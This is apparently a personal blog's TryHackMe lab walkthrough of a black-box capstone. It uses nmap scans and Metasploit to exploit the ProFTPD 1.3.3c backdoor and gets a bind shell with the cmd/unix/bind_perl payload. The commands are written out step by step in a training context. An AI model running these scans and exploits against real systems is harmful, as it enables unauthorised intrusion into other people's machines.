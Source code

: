 ```yaml
---
layout: page
title: MiroLabsCapstone
permalink: /Tutorials/TryHackMe/MiroLabsCapstone/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>


LETS GET SOME ROOT!
----

Since this one is a "Black Box" scenario we need to just try everything we can



First lets find the correct IP

```nmap -n -sn 10.10.77.0-255```

<img src="/images/TryHackMe/MiroLabsCapstone/IPs.png">

Looks like we have 2 possible choices, lets look into them

```nmap 10.10.77.78```

```nmap 10.10.77.141```

<img src="/images/TryHackMe/MiroLabsCapstone/IP_Results.png">

Lets go with the "basic" IP of 78 due to having 3 common exploitable port types

Lets look for any low hanging fruit

```sudo nmap  --script vuln -p 21-80 10.10.77.78 -v```

This just seemed to freeze after 5ish minutes


Now lets try to see what is running

```nmap -Pn -sV 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Services.png">

Well this looks like it could be promising... Lets lookup that ProFTPD version

```msfconsole```

```search ProFTPD 1.3.3c```

<img src="/images/TryHackMe/MiroLabsCapstone/Exploit.png">

We see that we may have a backdoor command we can try

```use 4```

```set RHOSTS 10.10.77.78```

```show options```

<img src="/images/TryHackMe/MiroLabsCapstone/Show.png">

Lets try to run it!

```run```

Annnnnnddddd..... Fail...hmmmm lets look this up

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

[This Link](Https://nmap.org/nsedoc/scripts/ftp-proftpd-backdoor.html)  This link shows a possible answer

**nmap --script ftp-proftpd-backdoor -p 21 <host>**

```nmap --script ftp-proftpd-backdoor -p 21 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Backdoor.png">

Well.. Yay? that was a bit anticlimactic... Now how do we use it?

After some trial and error it seems we may not actually have a backdoor yet
	
After a new connection we have a new IP 10..10.38.231
  
More connection issues.. lets reboot

Lets try msfconsole again
	
New IP of 10.10.144.237

Whelp thats not working time to try another path

... I lied after some research we may need to pick a payload
	
```msfconsole```

```search proftp```
	
<img src="/images/TryHackMe/MiroLabsCapstone/Choices.png">
	
```use 6```
	
```set RHOST 10.10.144.237```

```Show Options```
	

<img src="/images/TryHackMe/MiroLabsCapstone/Options.png">

```Run```

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

Now I see we need to select a payload
	
```Show Payloads```

<img src="/images/TryHackMe/MiroLabsCapstone/Payloads.png">

```set payload cmd/unix/bind_perl```

ANNNNDDDD We are in!
	
<img src="/images/TryHackMe/MiroLabsCapstone/Owned.png">


<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)

